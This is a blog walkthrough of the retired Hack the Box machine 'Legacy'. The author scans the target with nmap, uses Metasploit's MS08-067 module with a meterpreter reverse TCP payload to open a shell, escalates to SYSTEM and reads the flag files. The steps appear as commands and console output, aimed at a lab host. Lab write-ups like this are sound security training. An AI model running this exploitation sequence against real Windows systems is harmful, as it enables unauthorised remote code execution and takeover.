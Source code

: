 ```yaml
---
title: Legacy, Hack the Box CTF Walkthrough
lead: Exploiting the MS08-067 Microsoft Server Service Relative Path Stack Corruption
categories: CTF
image: /assets/img/posts/2021-01-11-legacy-hack-the-box-walkthrough/legacy.png
layout: post
description: ""
date:   2021-01-10 20:01:21 -0400
last-updated: 2021-01-10 20:01:21 -0400
categories: ctf
author: Tyler Butler
description: Legacy is an easy level retired capture the flag machine from Hack the Box. This writeup will describe the techniques I used to bypass security controls and gain root access to the machine.
card: card-2
navheader: posts
---
```


Legacy is an easy level retired capture the flag machine from Hack the Box. This writeup will describe the techniques I used to bypass security controls and gain root access to the machine.

## Getting Started   
The first thing i did was conduct a basic <kbd>nmap</kbd> scan to search for the top 200 open ports on the target.  

```bash
──(kali㉿kali)-[~/Documents/htb/legacy]
└─$ nmap --top-ports 200 -Pn 10.10.10.4
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-07 14:50 EST
Nmap scan report for 10.10.10.4
Host is up (0.023s latency).
Not shown: 197 filtered ports
PORT     STATE  SERVICE
139/tcp  open   netbios-ssn
445/tcp  open   microsoft-ds
3389/tcp closed ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 2.57 seconds
                                                                                                                                                          
```  

The scan shows there are at least 2 open ports with services such as netbios and microsoft-ds running. Next, to get a better understanding of the services and version running, and to scan for basic vulnerabilities, I used the <kbd>nmapAutomator</kbd> script.  The below output only shows the most relevant information.  

```bash
---------------------Starting Nmap Vulns Scan---------------------
                                                                                                          
Running CVE scan on basic ports
                                                                                                          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-07 15:00 EST
Nmap scan report for 10.10.10.4
Host is up (0.023s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.03 seconds


Running Vuln scan on basic ports
                                                                                                          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-07 15:00 EST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.4
Host is up (0.021s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.12 seconds
```  

The scan shows the target is likely vulnerable to CVE-2008-4250, a serious vulnerability also referred to by its [microsoft bulletin](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067) identifier, Microsoft Windows Server 2000/2003 - Code Execution (MS08-067). There is a public exploit for this vulnerability on metasploit (exploit/windows/smb/ms08_067_netapi), so next i started up the <kbd>msfconsole</kbd> and configured the necessary options.  

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   10.10.10.4       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf6 exploit(windows/smb/ms08_067_netapi) > 
```  

Executing the exploit started a reverse meterpreter session on the target. Using the <kbd>getsystem</kbd> meterpreter command, I upgraded my privilege to SYSTEM. At this point I can start looking for the user and root flags.  

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.10.10.4:1028) at 2021-01-11 10:22:35 -0500

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > 
```  

I used the <kbd>search</kbd> meterpreter command and found both flags. 

```bash
meterpreter > search -f *user.txt*
Found 1 result...
    c:\Documents and Settings\john\Desktop\user.txt (32 bytes)
meterpreter > cat "c:\Documents and Settings\john\Desktop\user.txt"
e69af0e4f443de7e36876fda4ec7644fmeterpreter > 
```  
```bash
meterpreter > search -f *root.txt*
Found 1 result...
    c:\Documents and Settings\Administrator\Desktop\root.txt (32 bytes)
meterpreter > cat "c:\Documents and Settings\Administrator\Desktop\root.txt"
993442d258b0e0ec917cae9e695d5713meterpreter > 
```  
## Conclusion  
Overall this was an easy CTF machine that was vulnerable to a very popular windows exploit.  

